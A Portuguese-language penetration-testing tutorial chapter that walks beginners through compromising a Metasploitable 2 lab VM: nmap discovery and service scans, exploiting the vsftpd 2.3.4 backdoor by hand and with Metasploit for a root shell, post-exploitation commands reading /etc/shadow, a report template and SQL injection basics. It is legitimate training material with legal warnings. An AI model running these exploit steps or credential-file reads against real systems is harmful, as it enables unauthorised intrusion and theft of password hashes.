

# 04 · Como começar — do laboratório pronto à primeira máquina invadida

`Nível: iniciante` · `Última atualização: 12/08/2026`

Este arquivo assume que você já montou o laboratório em [`03-instalacao.md`](03-instalacao.md)
e passou no checklist da §14. Não vamos repetir instalação — vamos **usar**.

Objetivo: em uma sessão, você vai comprometer o Metasploitable 2 por completo, entendendo
cada passo. Não é decoreba de comando; é o raciocínio das cinco fases visto pela primeira vez.

> ⚖️ **Só faça isto contra o alvo do seu laboratório.** Os mesmos comandos, contra qualquer
> IP que não seja seu e sem autorização escrita, são crime (art. 154-A, CP). Se ainda não leu
> [`12-etica-lei-e-contrato.md`](12-etica-lei-e-contrato.md), leia antes.

---

## 1. O ciclo de trabalho do dia a dia

Antes do primeiro comando, grave o ciclo. Você vai repeti-lo milhares de vezes:



**Anotar não é o último passo, é parte de cada passo.** Abra sua ferramenta de notas
(Obsidian, CherryTree, um `.md`) agora. Para cada máquina, uma nota com quatro seções:
`Recon`, `Portas/Serviços`, `Vulnerabilidades`, `Acesso obtido`. Cole comando e saída à medida
que avança. Quem não anota, refaz.

---

## 2. Fase 1 — Reconhecimento: quem está vivo?

Você sabe que o alvo está na rede `192.168.56.0/24`, mas não necessariamente o IP exato.
Descubra quais máquinas respondem:

```bash
# Varredura de descoberta de hosts (ping scan) — não escaneia portas, só vê quem está vivo
sudo nmap -sn 192.168.56.0/24
```

Saída esperada (os IPs variam conforme seu DHCP):
```
Nmap scan report for 192.168.56.1     (o hospedeiro)
Nmap scan report for 192.168.56.10    (seu Kali)
Nmap scan report for 192.168.56.20    (Metasploitable 2)  ← o alvo
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.1 seconds
```

> **O que aconteceu por dentro:** `-sn` manda ARP request (na mesma rede local) e/ou ICMP
> echo. Quem responde está vivo. `-sn` = "sem port scan". Guarde o IP do alvo numa variável
> para não digitar toda hora:

```bash
export ALVO=192.168.56.20
```

---

## 3. Fase 2 — Varredura e enumeração: o que tem aberto?

Este é o comando que você vai rodar em quase todo alvo pelo resto da carreira. Entenda cada
flag — não copie no escuro.

```bash
sudo nmap -sV -sC -p- -T4 -oN nmap-alvo.txt $ALVO
```

| Flag | O que faz |
|---|---|
| `-sV` | detecta a **versão** do serviço em cada porta (é o que dá as pistas) |
| `-sC` | roda os *scripts* padrão do nmap (`default`), que enumeram detalhes |
| `-p-` | escaneia **todas** as 65535 portas, não só as 1000 mais comuns |
| `-T4` | tempo agressivo — rápido, adequado a laboratório (em produção, cuidado) |
| `-oN arquivo` | salva a saída em formato legível (**sempre salve**) |

Isto demora alguns minutos no Metasploitable. Saída resumida (haverá muito mais):

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
...
```

**Agora vem a parte que separa pentester de operador de ferramenta: ler isto.**
Cada linha é uma pista. `vsftpd 2.3.4` não é só "um servidor FTP" — é uma versão **específica**,
e versão específica é o que você pesquisa. Anote as versões. Elas são o mapa do tesouro.

### 2.1 Enumerar um serviço específico

Peguemos o FTP. Antes de qualquer exploit, **converse com o serviço**:

```bash
# Banner grabbing manual — o serviço se apresenta
nc $ALVO 21
```
```
220 (vsFTPd 2.3.4)
```
O serviço confirma a versão. Feche com `Ctrl+C`. Isto é *enumeração*: extrair informação
antes de atacar. Metade dos iniciantes pula direto para o exploit e erra porque não confirmou
o que tinha.

---

## 4. Fase 3 — Exploração: o que quebra?

Você tem `vsftpd 2.3.4`. Pesquise essa versão exata:

```bash
# searchsploit consulta a base local do Exploit-DB (offline, vem no Kali)
searchsploit vsftpd 2.3.4
```
```
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution             | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)| unix/remote/17491.rb
------------------------------------------------------ ---------------------------------
```

**A história real por trás disso** (e por que você deve saber): em julho de 2011, o servidor
que distribuía o vsftpd foi invadido e alguém inseriu um *backdoor* no código-fonte. Quem
baixou naquela janela pegou uma versão que abre um shell na porta 6200 se o usuário de login
terminar com `:)`. É um caso real de **ataque de cadeia de suprimentos** — o mesmo tipo de
ataque que hoje é a categoria A03 do OWASP Top 10:2025. Você está estudando um pedaço de
história.

### Caminho A — na mão, para entender

```bash
# O backdoor dispara quando o usuário contém a carinha ":)". Ele abre a porta 6200.
# 1. Conecte no FTP e mande um usuário com a carinha:
nc $ALVO 21
```
Digite:
```
USER hacker:)
PASS qualquercoisa
```
O login vai "travar" (é o backdoor sendo ativado). Abra **outro terminal**:
```bash
# 2. A porta 6200 agora tem um shell de root esperando
nc $ALVO 6200
```
```bash
# 3. Você está dentro. Confirme:
id
```
```
uid=0(root) gid=0(root)
```
**`uid=0` é root.** Você tem controle total da máquina. Note que não digitou senha nenhuma —
o backdoor não pede. Feche com `Ctrl+C`.

### Caminho B — com Metasploit, para ver a ferramenta

```bash
msfconsole -q
```
```
msf6 > search vsftpd 2.3.4
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.56.20
msf6 exploit(vsftpd_234_backdoor) > run
```
```
[+] 192.168.56.20:21 - Backdoor service has been spawned, handling...
[*] Command shell session 1 opened (192.168.56.10 -> 192.168.56.20:6200)
```
```
id
uid=0(root) gid=0(root)
```

> **Quando usar cada caminho:** faça o Caminho A pelo menos uma vez para cada tipo de falha —
> entender o mecanismo é o que te torna capaz de improvisar quando o módulo pronto não existe.
> Use o Metasploit no dia a dia por velocidade. Quem só sabe o Caminho B vira "operador de
> ferramenta" e trava quando o alvo é levemente diferente do tutorial.

---

## 5. Fase 4 — Pós-exploração: e agora?

Você é root. Num teste real, agora você mede o **impacto**: até onde esse acesso chega e qual
dado ele expõe. No Metasploitable, pratique o básico:

```bash
# (dentro do shell no alvo)
whoami; hostname; id
cat /etc/passwd | grep -v nologin        # quais usuários têm shell
ls -la /root                             # o que o root guarda
cat /etc/shadow | head                   # os hashes de senha — o troféu clássico
ip addr                                  # a máquina tem outras redes? caminho para pivotar?
```

**O que se documenta aqui:** qual dado sensível estava acessível, se a máquina dá acesso a
outras redes (movimentação lateral — [`17`](17-pos-exploracao-e-movimentacao.md)), e o que
um atacante real teria feito. **Você não destrói, não altera, não exfiltra dado de verdade
num teste** — você prova que *poderia*, com um print, e para por aí. Isto é escopo (RoE),
e está em [`12`](12-etica-lei-e-contrato.md).

---

## 6. Fase 5 — Documentar: o produto

Enquanto está fresco, escreva a anotação que vira relatório depois:

```markdown
## Achado: Backdoor no vsftpd 2.3.4 (RCE não autenticado como root)

- **Alvo:** 192.168.56.20 (Metasploitable 2)
- **Serviço:** FTP, porta 21, vsftpd 2.3.4
- **Severidade:** Crítica (CVSS 10.0) — execução remota de código, sem autenticação, como root
- **Como reproduzir:**
  1. `nc 192.168.56.20 21`
  2. enviar `USER x:)` e `PASS x`
  3. `nc 192.168.56.20 6200` → shell de root
- **Evidência:** print do `id` retornando `uid=0(root)`
- **Impacto:** controle total do servidor; leitura de /etc/shadow; ponto de partida para a rede.
- **Correção:** substituir a versão comprometida (2.3.4 da janela de jul/2011) por uma build
  íntegra do vsftpd; validar integridade de pacotes na origem (assinatura/hash).
```

Compare o tempo: a invasão levou minutos, a documentação leva mais. Isto é a profissão.
Estrutura completa de relatório em [`24-relatorio-e-comunicacao.md`](24-relatorio-e-comunicacao.md).

---

## 7. Um segundo caminho, na web — para variar o músculo

O Metasploitable também tem web. Suba o navegador do Kali e vá em `http://192.168.56.20/`.
Há vários apps. Um clássico de treino é a injeção de SQL no DVWA (se você subiu via Docker no
`03`, está em `http://localhost:8080`).

O raciocínio muda de "porta/serviço/versão" para "entrada/validação/confiança":

1. Toda caixa de texto, parâmetro de URL e cookie é uma **entrada**.
2. Pergunte: essa entrada vai parar num banco de dados, num comando, numa página?
3. Teste se a aplicação **confia** nela sem validar. Em SQL: digite `'` num campo e veja se
   quebra. Se der erro de SQL, o campo é injetável.

Você vai aprender isso a fundo, com laboratório guiado, em [`18-seguranca-web.md`](18-seguranca-web.md)
e nos exemplos de [`06-exemplos.md`](06-exemplos.md). Por ora, o objetivo era ver que a web é
um segundo mundo, com sua própria lógica.

---

## 8. Os cinco primeiros erros de quem está começando (no uso, não na instalação)

| # | Erro | Sintoma | Correção |
|---|---|---|---|
| 1 | Pular a enumeração e ir direto ao exploit | "nenhum exploit funciona" | 80% do trabalho é enumerar. Volte à fase 2. O achado está na saída que você não leu. |
| 2 | Escanear só as 1000 portas padrão | perde o serviço vulnerável numa porta alta | use `-p-` quando puder; muita coisa vive fora do top 1000 |
| 3 | Não rodar o nmap com `sudo` | resultados incompletos, `-sS`/`-O` viram `-sT` silenciosamente | `sudo nmap ...` |
| 4 | Copiar exploit da internet sem ler | roda contra si mesmo, ou não funciona, ou apaga o alvo | leia o código antes de executar. Sempre. |
| 5 | Não anotar e ter que refazer tudo no dia seguinte | perde o passo exato que funcionou | anote comando + saída **enquanto** faz |

Bônus, o mais comum de todos: **rodar o exploit e não checar se funcionou.** Depois de todo
ataque, rode `id` / `whoami` / veja o status. Metade dos "não funcionou" é "funcionou e a
pessoa não olhou".

---

## 9. Aonde ir agora

Você fez o ciclo completo uma vez. Para consolidar:

1. **Refaça o Metasploitable por outra porta.** Ele tem dezenas de caminhos: Samba
   (`usermap_script`), a distribuição de UnrealIRCd, o Java RMI, o Tomcat com senha padrão.
   Cada um ensina uma classe diferente. Meta: cinco caminhos distintos até root.
2. **Vá para os exemplos guiados** → [`06-exemplos.md`](06-exemplos.md), 14 exemplos completos.
3. **Faça o projeto-modelo** → [`07-projeto-modelo/`](07-projeto-modelo/README.md): um pentest
   inteiro, do escopo ao relatório, num app propositalmente vulnerável.
4. **Comece a trilha de laboratórios** → [`70-pratica.md`](70-pratica.md), 12 labs progressivos.
5. **Entenda o que fez por baixo** → [`15`](15-varredura-e-enumeracao.md) explica o nmap por
   dentro; [`16`](16-vulnerabilidades-e-exploracao.md), o que é um exploit de verdade.

E antes de qualquer alvo que não seja seu: [`12-etica-lei-e-contrato.md`](12-etica-lei-e-contrato.md).

---

## Autoteste

1. Qual comando descobre quais máquinas estão vivas numa rede sem escanear portas?
2. O que cada flag faz em `sudo nmap -sV -sC -p- -T4 -oN saida.txt ALVO`?
3. Por que você deve fazer *banner grabbing* manual antes de rodar um exploit?
4. O que significa `uid=0` e por que é o objetivo?
5. Qual foi a origem histórica do backdoor do vsftpd 2.3.4, e a que categoria do OWASP Top
   10:2025 ela corresponde?
6. Por que fazer o "Caminho A" (na mão) pelo menos uma vez, se o Metasploit é mais rápido?
7. Na fase de pós-exploração de um teste real, por que você prova que *poderia* acessar um
   dado, em vez de acessá-lo?
8. Cite três dos cinco erros de iniciante no uso e a correção de cada um.
